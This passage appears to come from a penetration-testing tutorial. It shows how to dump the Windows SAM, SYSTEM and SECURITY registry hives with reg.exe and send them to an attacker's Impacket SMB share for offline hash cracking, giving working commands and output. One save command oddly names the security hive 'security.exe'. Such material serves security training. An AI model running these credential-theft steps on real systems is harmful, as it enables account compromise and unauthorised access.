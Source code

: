 With administrative access to a Windows system, we can attempt to quickly dump the files associated with the SAM database, transfer them to our attack host, and begin cracking the hashes offline.

## Registry hives
There are three registry hives we can copy if we have local administrative access to a target system, each serving a specific purpose when it comes to dumping and cracking password hashes. A brief description of each is provided in the table below:

|Registry Hive|Description|
|---|---|
|`HKLM\SAM`|Contains password hashes for local user accounts. These hashes can be extracted and cracked to reveal plaintext passwords.|
|`HKLM\SYSTEM`|Stores the system boot key, which is used to encrypt the SAM database. This key is required to decrypt the hashes.|
|`HKLM\SECURITY`|Contains sensitive information used by the Local Security Authority (LSA), including cached domain credentials (DCC2), cleartext passwords, DPAPI keys, and more.|
Theses files are located at `C:\Windows\System32\config`
*We can back up these hives using the `reg.exe` utility*.

#### Using reg.exe to copy registry hives
By launching `cmd.exe` with administrative privileges, we can use `reg.exe` to save copies of the registry hives. Run the following commands:

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.exe

The operation completed successfully.
```

If we're only interested in dumping the hashes of local users, we need only `HKLM\SAM` and `HKLM\SYSTEM`. However, it's often useful to save `HKLM\SECURITY` as well, since it can contain cached domain user credentials on domain-joined systems, along with other valuable data. Once these hives are saved offline, we can use various methods to transfer them to our attack host. In this case, we'll use Impacket's [smbserver](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) in combination with some basic CMD commands to move the hive copies to a share hosted on our attacker machine.

#### Creating a share with smbserver
To create the share, we simply run `smbserver.py -smb2support`, specify a name for the share (e.g., `CompData`), and point to the local directory on our attack host where the hive copies will be stored (e.g., `/home/ltnbob/Documents`).

```shell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
```
Once the share is running on our attack host, we can use the `move` command on the Windows target to transfer the hive copies to the share.
